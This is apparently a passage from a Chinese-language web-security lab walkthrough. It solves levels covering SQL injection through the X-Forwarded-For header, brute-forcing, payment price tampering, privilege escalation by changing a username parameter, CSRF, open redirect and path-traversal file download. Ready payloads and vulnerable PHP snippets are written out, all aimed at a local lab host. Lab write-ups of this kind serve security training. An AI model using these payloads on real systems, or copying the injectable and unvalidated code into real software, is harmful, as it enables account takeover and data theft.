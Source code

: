 X-Forwarded-For注入:[https://www.freebuf.com/articles/web/164817.html](http://)
两种方式解决这个问题(原理都是一样的)
1,用burpsuite抓包,添加X-Forwarded-For头部,其值为union select 1,2,3,group_concat(id,0x7e,flag)from flag
![image](https://wx4.sinaimg.cn/large/0078beR7ly1fz49wu5v3wj30zn0h8jsl.jpg)
第二种方式:使用火狐浏览器的Modify Headers,添加添加X-Forwarded-For头部,其值为union select 1,2,3,group_concat(id,0x7e,flag)from flag,确定,刷新页面即可出现所查询的值
![image](https://ws3.sinaimg.cn/large/0078beR7ly1fz49x135e4j31fu0na40i.jpg)
## 第六关:支付漏洞
打开遇到个登录页面,爆破呗,得到账户名密码是tom/123456
![image](https://ws2.sinaimg.cn/large/0078beR7ly1fz49yoefz6j30oc07cq3c.jpg)
看着很像支付漏洞,抓包修改价格为0.1元,购买成功
![image](https://ws4.sinaimg.cn/large/0078beR7ly1fz49zawg9nj31fk0nv48j.jpg)
## 第七关:越权问题
使用系统提供的账号密码登录
点击修改密码,发现是以GET请求的方式传递用户名进行修改密码的操作,那么尝试将用户名修改为admin用户,看能不能越权修改管理员账号
payload:```
http://192.168.239.131/pentest/test/3/change.php?name=admin
```
是可以修改admin的密码的,但是需要旧密码,

查看其源码,只要输入的两次新密码正确就可以修改啦,不对原密码进行确认:
```
if($pwd2==$pwd3){
	//更新记录
$updateSql = "update user set pwd = '".$pwd2."' where uid='".$uid."'";

$result = mysql_query($updateSql);
if($result>0){
	echo "<script type='text/javascript'>alert('更改密码成功，请重新登录！');location.href='index.html'</script>";
}
```
![image](https://wx2.sinaimg.cn/large/0078beR7ly1fz4a0y7p5wj30hy0b0jrm.jpg)

## 第八关:CSRF
首先使用tom/123456登录,观察其URL为tom用户,将tom替换成admin即可修改管理员密码,然后输入新密码,burp抓包右键制作CSRF POC
![image](https://ws4.sinaimg.cn/large/0078beR7ly1fz4a1i0wtaj30te0db3zf.jpg)
保存至一个HTML文件中,将访问该文件的网站链接发送给管理员,管理员一点击即可修改其密码为我刚刚修改之后的密码

## 第九关:URL跳转
查看源码,发现index.php存在任意url跳转
```
$url=$_REQUEST['url'];
if($url!=null||$url!=""){
	echo "<script type='text/javascript'>alert('成功跳转！');location.href='".$url."'</script>";
}
```
那么其payload为:
```
http://192.168.239.131/pentest/test/5/index.php?url=www.baidu.com
```

## 第十关:GET类型任意下载漏洞
打开链接提示404,查看源码源码又是源码写的有问题.....
我们直接去访问download.php
![image](https://wx3.sinaimg.cn/large/0078beR7ly1fz4a347hluj313s0j9gnj.jpg)
网址为:http://192.168.239.131/pentest/test/6/1/download.php
点击下载,发现传递了一个参数fname 是下载的文件名 那么可能可以修改文件名实现任意文件下载,其payload为:

```
http://192.168.239.131/pentest/test/6/1/download.php?fname=../../../pentest/test/6/1/download.php
```
```